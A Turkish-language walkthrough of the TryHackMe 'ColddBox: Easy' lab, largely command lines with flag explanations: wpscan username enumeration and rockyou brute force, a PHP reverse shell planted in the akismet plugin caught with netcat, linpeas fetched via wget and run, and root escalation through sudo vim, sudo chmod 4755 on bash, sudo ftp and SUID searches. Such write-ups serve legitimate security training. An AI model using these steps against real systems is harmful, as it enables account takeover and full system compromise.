# TRYHACKME ColddBox : Easy WRITEUP

## Makineye Erişim 
Makineye https://tryhackme.com/room/colddboxeasy adresinden erisebilirsiniz.  

## Çözüm Adımları 
Öncelikle makineye erişmek için openvpn ile TryHackMe'nin ağına bağlanıyoruz: 

```bash
openvpn vpn_dosyamız.ovpn
```
sonra rustscan aracı ile port taraması başlatıyoruz: 

```bash
rustscan -a 10.10.174.16 -- -sC -sV 
```
-a ip belirtir 

-- rustscanden nmap e geçer 

-sC nmap e script taraması yapmasını söyler 

-sV nmap e versiyon taraması yapmasını söyler 



Tarama sonucunda 4512 portunda ssh ve 80 portunda apache2 web server çalıştığını görüyoruz. Websitesine girince websitesinin wordpress ile yapılmış olduğunu görüyoruz.




Wordpress sitelerine saldırı yapmak için hazırlanmış wpscan aracı ile recon yapmaya başlıyoruz: 

```bash
wpscan --url http://10.10.174.16/ --enumerate 
```
--url hedefi belirtir 

--enumerate websitesi hakkında olabildiğince bilgi edinmemizi sağlar 





Tarama sonucunda wpscan aracı birkaç kullanıcı ismi buluyor . Bu kullanıcıların şifresini öğrenmek için brute force yapıyoruz: 

```bash
wpscan --url http://10.10.174.16/ -U users.txt -P rockyou.txt 
```
--url hedefi belirtir  

-U kullanıcı adlarının bulunduğu dosyayı belirtir

-P şifrelerin bulunduğu dosyayı belirtir



Ve c0ldd kullanıcısının şifresini öğreniyoruz. Bu kullanıcı ile websitesine giriş yaptıktan sonra webshell yüklemek için akismet pluginini editleyerek içerisine https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php hazır webshell dosyasının kodlarını yazıyoruz (içerisindeki portu ve ip adresini kendi ipmiz ve kullanmak istediğimiz port ile değiştiriyoruz tabi) . akismet.php dosyasını güncelledikten sonra netcat aracı ile kullanmak istediğimiz portu dinlemeye alıyoruz:   


```bash
nc -lvnp 1337
```
-l dinlemeye geçer 

-v ekstra bilgi verir 

-n dns sorgusunu iptal eder direk ip ile çalışır 

-p port numarasını belirtir



Ardından plugins sayfasında akismet pluginini activate edince içerdeyiz: 



Yetki yükseltme adımını otomatikleştirmek için linux yetki yükseltme aracı olan linpeas i pentest makinemize yükliyoruz: 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

-L curl aracına site yönlendirmelerini takip etmesini söyler 

daha sonra dosyayı gönderebilmek için python ile websrever açıyoruz: 

```bash
python3 -m http.server 7000
```

-m kullanılacak modül belirtir 

Hedefte dosyayı herkesin yazma yetkisi olan bir yere yükleyip çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash 
cd /dev/shm
```
```bash
wget http://_tryhackme_vpn_ip_adresimiz:7000/linpeas.sh
```
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh
```



Tarama sonucunda c0ldd kullanıcısının şifresinin wp-config.php dosyasında yazılı olduğunu görüyoruz ve ardından ssh ile c0ldd kullanıcısı olarak sisteme giriş yapıyoruz:  

```bash 
ssh -p 4512 c0ldd@10.10.174.16
```
-p ssh portunu belirtir

ardından root yetkisi ile çalıştırabileceğimiz komutları öğrenmek için aşağıdaki komutu kullanıyoruz: 

```bash
sudo -l
```

-l yetkileri listeler

Çıktı sonucunda yetkilerimizi 3 farklı yol ile yükseltebileceğimizi görüyoruz. Vim ile yetki yükseltmek için https://gtfobins.github.io/gtfobins/vim/ sayfasına gidiyoruz  



Ve aşağıdaki komut ile yetki yükseltebileceğimizi görüyoruz: 

```bash
sudo vim -c ':!/bin/sh'
```
-c vime çalıştırması gereken programı söyler



chmod komutu ile yetki yükseltmek için ise aşağıdaki komutu kullanıyoruz: 

```bash
sudo chmod 4755 /bin/bash && /bin/bash -p
```
4 suid biti ayarlar yani program her zaman kendi sahibi adına çalışır 
7 dosya sahine read, write, execute yetkisi verir 
5 dosya grubuna read ve execute yetkisi verir 
5 herkese read ve execute yetkisi verir 
&& ve demektir ard arda birden fazla komutu tek satırda çalıştırmak için kullanılır 
-p bash güvenlik nedeniyle root shell i düşürür . Ama bu parametre ile suid varsa shell kalır  



Ftp ile yetki yükseltmek için aşağıdaki komutları kullanıyoruz:

```bash
sudo ftp
```
```bash
!/bin/sh
```

bu sayede ftp üzerinden sh shell açmış oluyoruz. Başka bir yetki yükseltme yöntemi ise suid biti olan find komutu ile yetki yükseltmek . Bunu yapmak için öncelikle sistemdeki tüm suid bitine sahip dosyaları buluyoruz: 

```bash
find / -perm -u=s -type f 2>/dev/null
```
-perm dosyaların izinlerini kontrol eder 

-u=s user (sahip) için suid biti ayarlanmış mı kontrol eder 

-type f  dosya türü f(file) belirtir 

2>/dev/null kontrol etmeye yetkimiz olmayan dosyalar hata verdirecektir. Hata mesajlarını (2>) çöpe(/dev/null) atar 

Ve artık tüm yollarla root olmanın mutluluğu ile odayı bitiriyoruz. 


